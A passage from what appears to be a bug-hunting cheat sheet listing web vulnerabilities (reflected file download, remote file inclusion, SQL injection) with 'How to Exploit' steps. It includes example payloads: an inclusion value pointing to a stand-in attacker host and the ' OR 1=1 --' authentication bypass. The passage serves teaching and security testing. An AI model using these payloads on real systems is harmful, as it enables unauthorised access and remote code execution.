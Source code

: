   ```html
RFD tricks users into downloading malicious files served by the application, disguised as safe files.

**Where to Find:**
Web applications that generate downloadable files based on user input.

**How to Exploit:**

    Manipulate input to serve a malicious file (e.g., exploit.exe).
    Trick users into downloading and running the file.

**Example:**  

    Inject: file=malicious.exe
    Result: The user downloads a malicious file.

---

## 12. Remote File Inclusion (RFI)


**Introduction:**
RFI allows attackers to include remote files, potentially leading to code execution or system compromise.

**Where to Find:**
Applications that allow file inclusion from external URLs.

**How to Exploit:**

    Modify the file parameter to point to an attacker-controlled file.
    Execute the remote file on the server.

**Example:**  

    Inject: file=http://attacker.com/malicious.php
    Result: Execute malicious code from a remote server.

---

## 13. SQL Injection

**Introduction:**
SQL Injection occurs when attackers inject malicious SQL code into input fields, allowing them to manipulate database queries.

**Where to Find:**
Forms or URLs that take user input and query a database.

**How to Exploit:**

    Inject SQL queries (e.g., ' OR 1=1 --).
    Extract or manipulate database data.
**Example:**  

    Inject: ' OR 1=1 --
    Result: Bypass authentication and access data.

---

## 14. Server Side Include Injection (SSI Injection)

**Introduction:**
  ```